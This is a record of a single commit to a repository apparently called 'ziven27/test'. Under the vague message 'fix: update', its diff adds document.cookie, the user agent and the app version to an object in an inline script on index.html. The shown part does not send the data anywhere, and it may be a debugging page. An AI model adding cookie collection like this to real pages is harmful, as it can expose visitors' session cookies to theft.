

Before and after one commit to ziven27/test, a website: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
fix: update

```diff
--- a/index.html
+++ b/index.html
@@ -15,7 +15,10 @@
     <script>
         (function (){
             const result={
-                tes:1231
+                tes:1231,
+                cookie:document.cookie,
+                userAgent:navigator.userAgent,
+                app:navigator.appVersion
             };
             try {
                 result.wx= wx
```
Also changed, not shown: package.json (added, +20 -0 lines).
